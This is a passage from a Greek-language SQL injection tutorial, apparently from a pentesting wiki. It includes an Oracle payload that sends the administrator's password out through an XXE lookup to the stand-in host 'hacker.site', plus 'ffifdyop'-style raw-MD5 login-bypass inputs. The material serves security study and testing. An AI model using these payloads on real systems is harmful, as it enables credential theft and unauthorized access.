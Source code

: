 Είναι σημαντικό να σημειωθεί ότι η εξαγωγή δεδομένων εκτός ζώνης μέσω XXE μπορεί να είναι μια πολύ ισχυρή τεχνική, καθώς επιτρέπει την ανάκτηση ευαίσθητων πληροφοριών από τον στόχο. Επομένως, είναι σημαντικό να ελέγχονται και να αποτρέπονται αυτού του είδους οι ευπάθειες στις εφαρμογές.
```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```
## Αυτοματοποιημένη Εκμετάλλευση

Ελέγξτε το [SQLMap Cheetsheat](sqlmap/) για να εκμεταλλευτείτε μια ευπάθεια SQLi με το [**sqlmap**](https://github.com/sqlmapproject/sqlmap).

## Πληροφορίες για συγκεκριμένες τεχνολογίες

Έχουμε ήδη συζητήσει όλους τους τρόπους για να εκμεταλλευτείτε μια ευπάθεια SQL Injection. Βρείτε μερικά ακόμα κόλπα που εξαρτώνται από την τεχνολογία της βάσης δεδομένων σε αυτό το βιβλίο:

* [MS Access](ms-access-sql-injection.md)
* [MSSQL](mssql-injection.md)
* [MySQL](mysql-injection/)
* [Oracle](oracle-injection.md)
* [PostgreSQL](postgresql-injection/)

Ή θα βρείτε **πολλά κόλπα σχετικά με: MySQL, PostgreSQL, Oracle, MSSQL, SQLite και HQL στο** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)



<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι το πιο σχετικό συνέδριο κυβερνοασφάλειας στην **Ισπανία** και ένα από τα πιο σημαντικά στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένας ζωντανός σημείο συνάντησης για επαγγελματίες τεχνολογίας και κυβερνοασφάλειας σε κάθε ειδικότητα.

{% embed url="https://www.rootedcon.com/" %}

## Παράκαμψη Ταυτοποίησης

Λίστα για να δοκιμάσετε να παρακάμψετε τη λειτουργία σύνδεσης:

{% content-ref url="../login-bypass/sql-login-bypass.md" %}
[sql-login-bypass.md](../login-bypass/sql-login-bypass.md)
{% endcontent-ref %}

### Παράκαμψη Ταυτοποίησης με Ακατέργαστο Hash
```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```
Αυτό το ερώτημα επιδεικνύει μια ευπάθεια όταν το MD5 χρησιμοποιείται με την παράμετρο true για ακατέργαστη έξοδο σε ελέγχους πιστοποίησης, καθιστώντας το σύστημα ευάλωτο στην επίθεση SQL injection. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό δημιουργώντας εισόδους που, όταν κατακερματιστούν, παράγουν απροσδόκητα τμήματα εντολών SQL, οδηγώντας σε μη εξουσιοδοτημένη πρόσβαση.
```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```
### Παράκαμψη πιστοποίησης με εισαγμένο hash
